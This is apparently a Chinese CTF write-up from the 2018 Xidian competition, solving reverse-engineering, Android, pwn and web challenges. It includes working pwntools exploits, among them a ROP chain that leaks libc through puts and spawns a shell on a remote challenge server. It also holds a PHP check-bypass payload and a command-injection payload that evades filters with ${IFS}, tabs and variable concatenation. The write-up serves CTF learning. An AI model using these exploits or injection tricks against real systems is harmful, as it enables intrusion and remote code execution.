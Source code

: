 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      西电网信杯线下wp 		 # 标题 
subtitle:   西电网信杯               # 副标题
date:       2018-07-15 				# 时间
author:     Mr.R 					# 作者
# header-img: img/post-bg-2015.jpg 	# 这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								# 标签
    - CTF
---
```


# 西电网信杯线下赛题目wp
>今年师傅们出题挺好的 就是 题目分布有点倾斜 对于专攻某些方面的dalao们不太友好

## RE
>[题目包](../files/xdctf_re.zip)
   * RE1  
   送分题目 使用od直接nop掉判断即可
   * RE2  
   首先丢进ida
   ![](https://s1.ax1x.com/2018/07/26/PN1Zxs.png)
   根据分析,我们可以得出flag格式:  
   flag{x*32}  
   我们可以注意到v11是ebp-13h,v11是'}'  
   那么src的开头为ebp-33h,则src的长度就是0x33-0x13 --> 32位
   接下来讲src赋给了dst
   跟进接下来的函数
   ![](https://s1.ax1x.com/2018/07/27/PUmJeS.png)
   我们可以发现他实际就是将dst与另一个数组中的值进行了异或  
   继续跟进，
   ![](https://s1.ax1x.com/2018/07/27/PUmwzq.png)
   发现实际就是对v7数组进行赋值,最后再用v7进行比对,那么我们很容易写出程序 

 
```python
str1 = "23gjf13au98hk3a1090zp8qjs41h39jp"
add = [0x04,0x0F,0x0B,0x1E,0x0E,0x14,0x1F,0x09,0x17,0x02,0x19,0x1C,0x12,0x10,0x00,0x08,0x11,0x01,0x15,0x03,0x0A,0x1D,0x0C,0x16,0x18,0x0D,0x1B,0x05,0x07,0x06,0x13,0x1A]
str2 = ''
dict1 = [0x53,0x45,0x5C,0x1E,0x50,0x13,0x2F,0x78,0x04,0x53,0x58,0x4A,0x43,0x01,0x41,0x2A,0x08,0x40,0x67,0x2F,0x0C,0x4A,0x12,0x2E,0x41,0x6C,0x05,0x54,0x40,0x12,0x5B,0x4F]
flag = 'flag{'
for i in range(len(str1)):
    str2 += chr(ord(str1[add[i]]))
for i in range(len(str2)):
    flag += chr( ord(str2[i])^dict1[i] )
flag += '}'
print flag
```


   得到flag  
   >flag{5t4t1c_An4lys1s_1s_E4sy_2_me!!!~}  

* RE3  
    ![](https://s1.ax1x.com/2018/07/27/PUnVlq.png)
    看到这两个字符串，我们就要大胆的猜测是存在base64和迷宫  
    将下面一串字符重新排列之后  
    ![](https://s1.ax1x.com/2018/07/27/PUnNnK.png)  
    再分析代码
    ![](https://s1.ax1x.com/2018/07/27/PUnwAe.png)  
    ```
    2 -> down  
    1 -> up  
    3 -> left  
    4 -> right  
    ```
    我们可以得出在base64前的字符  
    >222441144222    

    同时，我们发现他的base64编码表是有替换的，于是可得出解密程序:
  
```python  
from base64 import b64encode
import string
s = "222441144222"
list1 = "0123456789ABCDEabcdefghijklFGHIJKLMNOPQRSTUVWXYZmnopqrstuvwxyz+="
list2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
str1 = b64encode(s)
flag = ''
for i in str1:
    num = list2.index(i)
    flag += list1[num]
print flag
```  
> flag:CN8oD3bnCebqCN8o  


* Mobile  
    也是一个送分题....直接dex2jar就可以获得源码  
    很容易得知是rsa加密,且私钥通过解密可知
```python
f = open("key.txt","r")
key = f.read()
f.close()
key1 = ''
for i in range(len(key)):
    if(i % 2 == 0):
        temp = ord(key[i])+2
    else:
        temp = ord(key[i])-1
    key1 += chr(temp)
print key1
```


根据密文与私钥即可解密获得flag

## pwn
* pwn1
又是一道送分题  
![](https://s1.ax1x.com/2018/07/27/PUungI.png)  
![](https://s1.ax1x.com/2018/07/27/PUuuvt.png)  
![](https://s1.ax1x.com/2018/07/27/PUuMKP.png)  
很显然可以直接将ret覆盖成system调用地址
```python
from pwn import *
s = process("./ez_pwn")
system = 0x04007A1
s.sendline("5438")
payload = 'A'*0x20+p64(1)+p64(system)
print payload
s.sendline(payload)
s.interactive()
```

* pwn2  
  一道传统的菜单题
  ![](https://s1.ax1x.com/2018/07/27/PUGhUP.png)
  漏洞出现在这个函数  
  ![](https://s1.ax1x.com/2018/07/27/PUGIC8.png)
  read_x 实际上就是一个read函数,显然我们可以溢出  
  padding = 0x40+8  
  就可以控制ret  
  同时利用puts和给予的libc就可以leak出system  
  其中需要注意的就是 64位传参使用的是寄存器
  >从第一个到第六个依次保存在rdi，rsi，rdx，rcx，r8，r9。从第7个参数开始，接下来的所有参数都将通过栈传递  

  对Rop的搜索使用ROPgadget即可  
  所以对整个的程序的编写思路就是:  
  1. leak出偏移,返回主函数
  2. 调用system,获得shell  
  exp如下:


```python
#-*-coding=utf-8-*-
from pwn import *

# s = process('./relro')

#暂时靶机还开着
s = remote('118.25.227.117',10000)
elf = ELF("./relro")
libc = ELF("./libc64.so")

put_plt = elf.plt['puts']
put_got = elf.got['puts']
pop_rdi = 0x0000000000400cd3
ret = 0x04008F2

#Get Offset
s.sendline("1")
payload = 'A'*0x40+'A'*8+p64(pop_rdi)+p64(put_got)+p64(put_plt)+p64(ret)
s.sendline(payload)
s.recvuntil("save message success.\n")
put_real = u64(s.recvline(keepends=False)[0:8].ljust(8,'\x00'))
offset = put_real-libc.symbols['puts']

system_add = libc.symbols['system']+offset
bin_sh = next(libc.search('/bin/sh'))+offset
s.sendline("1")
payload = 'A'*0x40+'a'*8+p64(pop_rdi)+p64(bin_sh)+p64(system_add)+p64(1)
print payload
s.sendline(payload)
s.interactive()
```  
> flag:flag{I_am_on_your_behind}



## WEB  
* web1  
    送分,直接变量覆盖出GLOBAL全局变量就可以
* web2  


```php
<?php
error_reporting(0);
require 'flag.php';
$value = $_GET['value'];
$password = $_GET['password'];
$username = '';

for ($i = 0; $i < count($value); ++$i) {
    if ($value[$i] > 32 && $value[$i] < 127) unset($value);
    else $username .= chr($value[$i]);
    if ($username == 'w3lc0me_To_xid1an' && intval($password) < 232 && intval($password + 1) > 233) {
        echo 'Hello '.$username.'!', '<br>', PHP_EOL;
        echo $flag, '<hr>';
    }
}

highlight_file(__FILE__);
```  


    源码如上 绕过这些限制需要几个小trick
1. chr函数在转换时会自动取模256,所以我们只需要在原本ascii码基础上+256即可
2. intval()在处理16进制时存在问题,但强制转换时时正常的.
> payload: value[0]=375&value[1]=307&value[2]=364&value[3]=355&value[4]=304&value[5]=365&value[6]=357&value[7]=351&value[8]=340&value[9]=367&value[10]=351&value[11]=376&value[12]=361&value[13]=356&value[14]=305&value[15]=353&value[16]=366&password=0x123  
flag: flag{bd6c746d0196a31e42c2a1ac7e7dbc4b}

* web3
    一个命令执行,大部分命令都被过滤了,但我们可以考虑使用拼接,同时空格可以使用tab绕过或者使用${IFS}绕过.  
    关于拼接,bash中可以使用变量的方式,例如:  
    ```a=ca;b=t;$a$b flag```

>payload: 127.0.0.1\`a=c;b=at;$a$b{此处为tab}flag\`  